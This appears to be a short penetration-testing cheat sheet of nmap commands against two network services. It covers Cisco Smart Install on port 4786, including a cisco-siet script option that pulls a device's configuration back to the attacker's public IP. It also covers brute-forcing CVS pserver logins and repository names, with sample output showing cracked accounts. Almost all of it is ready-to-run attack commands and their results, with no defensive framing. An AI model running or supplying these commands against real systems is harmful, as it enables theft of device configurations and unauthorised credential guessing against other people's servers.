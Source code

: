 
### Cisco - Cvs - Test whether host is vulnerable or not

    nmap -p 4786 -v 192.168.0.1 # By default, it will just test whether host is vulnerable or not
    nmap -p 4786 -v 192.168.0.1 --script ./cisco-siet.nse

### You can pass argument to get config

If you are attacking public ip, make sure to provide your public ip to the script (cisco-siet.addr=<PUBLIC_IP>)

    nmap -p 4786 -v 192.168.0.1 --script ./cisco-siet.nse --script-args "cisco-siet.get"

### Cvs - Brute-Force

_Performs Brute-Force password auditing against CVS pserver authentication_
     
```sh 
nmap -p 2401 --script cvs-brute 192.168.1.12
```

     |2401/tcp open  cvspserver syn-ack
     | cvs-brute:
     |   Accounts
     |     hotchner:francisco - Account is valid
     |     reid:secret - Account is valid
     |   Statistics
     |_    Performed 544 guesses in 14 seconds, average tps: 38



### Cvs Repository - Brute-Force 

_Attempts to guess the name of the CVS repositories hosted on the remote server_ With knowledge of the correct repository name, usernames and passwords can be guessed_
     
```sh 
nmap -p 2401 --script cvs-brute-repository 192.168.1.12
```

     |PORT     STATE SERVICE    REASON
     |2401/tcp open  cvspserver syn-ack
     | cvs-brute-repository:
     |   Repositories
     |     /myrepos
     |     /demo
     |   Statistics
     |_    Performed 14 guesses in 1 seconds, average tps: 14
